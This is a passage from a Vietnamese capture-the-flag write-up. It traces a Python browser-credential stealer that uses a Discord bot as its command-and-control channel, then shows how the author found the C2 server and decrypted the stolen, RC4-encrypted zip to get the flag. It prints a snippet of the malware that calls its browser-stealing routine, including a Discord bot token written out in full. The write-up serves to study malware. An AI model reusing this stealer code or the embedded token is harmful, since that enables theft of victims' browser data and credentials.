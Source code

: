 * download: thực hiện lấy các file trên máy nạn nhân
    

Một số thông tin về cấu hình C2 server:
```
def main():
    run_full_browser_steal()
    bot.run(TOKEN)


TOKEN = "MTA3NzU5NzY4MTgwOTExNzI1NA.GdNmEs.6Phdg_2uMHnZolzuXdz8OZZsTgpw63Df1vJtt0"
SERVER_ID = int(get_env_variable_from_registry("_NT_SYMBOL_ID"))
CHANNEL_ID = int(get_env_variable_from_registry("_NT_SYMBOL_CHANNEL_"))
if __name__ == "__main__":
    main()
```

dựa vào đây chúng ta có thể tìm ra được C2 server bằng **SERVER ID** mà malware đã ghi vào **Registry** và tool sau: https://discordlookup.com/guild

**BINGOOO0o0o0ooo000o**
<p align="center"><img src="https://hackmd.io/_uploads/HkOfSeRmgl.png" alt="image"></p>

Nhưng tới đây vẫn chưa xong đâu :<< .
<p align="center"><img src="https://hackmd.io/_uploads/SkRNUeC7xe.png" alt="image"></p>

Flag chúng ta cần vẫn không nằm trong C2 server này.

<p align="center"><img src="https://hackmd.io/_uploads/rJf6UlAQlg.png" alt="image"></p>

Sau một hồi lục lọi thì tôi để ý đến file **.zip** đã nén những dữ liệu của nạn nhân và gửi về C2. Oke tải nó về xem có gì thú vị không.
<p align="center"><img src="https://hackmd.io/_uploads/HJ2gvlRmlx.png" alt="image"></p>
Chời ơi, nó lại bị gì thế này.
<p align="center"><img src="https://hackmd.io/_uploads/rkMuDxRQll.png" alt="image"></p>

hmmmmmm..........
à đúng rồi, chúng ta đã quên rằng file **.zip** này đã bị mã hóa **RC4**, vậy thì decrypt thoi. 
nhưng key (*ip public*) ở đâu để decrypt?
<p align="center"><img src="https://hackmd.io/_uploads/rJ5qOeC7xg.png" alt="image"></p>
Oke đây rồi, nó nằm trong đoạn chat của hacker và bot discord.

oke header có **PK** thì có vẻ uy tín rồi đấy.
<p align="center"><img src="https://hackmd.io/_uploads/HJ3UteCQeg.png" alt="image"></p>

Đây rồiiiiiiiiii.
<p align="center"><img src="https://hackmd.io/_uploads/HJi19l0Xge.png" alt="image"></p>

<p align="center"><img src="https://hackmd.io/_uploads/H1PVqeCmxg.png" alt="image"></p>

Oke thì đấy là toàn bộ challenge này, một challenge tôi thấy rất thú vị.

Cảm ơn bạn đã đọc đến cuối bài.

____ EagleBoiz a.k.a SawG
